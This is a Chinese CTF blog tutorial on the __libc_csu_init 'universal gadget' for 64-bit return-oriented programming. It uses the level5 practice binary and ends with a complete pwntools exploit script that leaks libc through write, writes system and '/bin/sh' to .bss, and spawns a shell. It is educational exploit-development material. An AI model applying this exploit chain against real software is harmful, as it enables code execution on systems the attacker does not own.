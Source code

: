 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN通用gadget学习 		 # 标题 
subtitle:   __libc_csu_init               # 副标题
date:       2018-07-30 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - PWN
---
```


# PWN,__libc_csu_init通用gadget学习
>例题下载:[蒸米level5](/files/pwn/level5)

__libc_csu_init函数是在libc初始化的时候用到的函数,所以在使用libc的文件中都会出现他  
  
在做64位的pwn题目的时候,函数的传参都是需要用到寄存器的  
>从第⼀一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

但是我们在rop的时候不一定可以控制全部的寄存器,可能会导致参数无法完全传递,这时候就可以利用__libc_csu_init来进行调用函数

首先来看函数的汇编  
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
需要注意的是 每个不同版本的 汇编可能都不同

下面来看分析  
显然在0x0400606之后我们可以控制rbx,rbp,r12,r13,r14,r15  
在0x04005F0中
```
r15 --> rdi  
r14 --> rsi
r13 --> edi
```
这里要注意的是 虽然只能够控制rdi的低32位,但实际上rdi的高32位也是0(可以自行调试)
在这里我们就可以控制rdi,rsi,rdi。并且可以调用r12所指的函数(要注意调用时要使用got地址)  

```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
这一处我们只需要使rbx + 1 = rbp就可以了  
我们就使用最简单的rbx = 0,rbp = 1  
  
溢出函数:
```c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

payload编写:  
1. 确定padding:0x88  
2. 编写csu利用函数


```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += 'A'*(7*8)
    payload += p64(main)
    s.sendline(payload)
```

这里需要注意 我们在覆盖完ret后,要先写入8字节将rsp覆盖到rsp+8。在控制完rbx,rbp等以后跳转到上方调用函数。在调用完之后,我们仍然需要覆盖ret,所以要往stack上继续覆盖8*8*7字节(6个寄存器+1个垃圾字节),因为要多次利用,所以要将ret覆盖为main

3. 利用write,leak出偏移地址
```python
write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")
```

4. 将system地址与/bin/sh写入bss  
   因为我们没有system_got的地址,所以我们需要首先把system_symbols写入bss,然后再通过csu调用bss来执行
```python
read_got = elf.got['read']
bss = 0x601038
csu(0,1,read_got,0,bss,16)
system = libc.dump("system") + offset
sleep(1)
s.send(p64(system))
s.send("/bin/sh\x00")
```
这里记得手动延时一下,不然可能会出现程序还没read,我们数据就已经发上去的情况

5. 调用system,GetShell
```python
csu(0,1,bss,bss+8,0,0)
s.interactive()
```

完整code:
```python
#-*-coding=utf-8-*-

from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep

s = process("./level5")
elf = ELF("./level5")
padding = 'A'*0x88
csu_end = 0x0400606
csu_start = 0x04005F0
main = 0x0400564

def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += '\x00'*(7*8)
    payload += p64(main)
    s.sendline(payload)

write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")

read_got = elf.got['read']
bss = 0x601038
system_addr = libc.dump("system") + offset
csu(0,1,read_got,0,bss,16)
sleep(1)
s.send(p64(system_addr))
s.send("/bin/sh\0")
print "send success"
csu(0,1,bss,bss+8,0,0)
s.interactive()
```


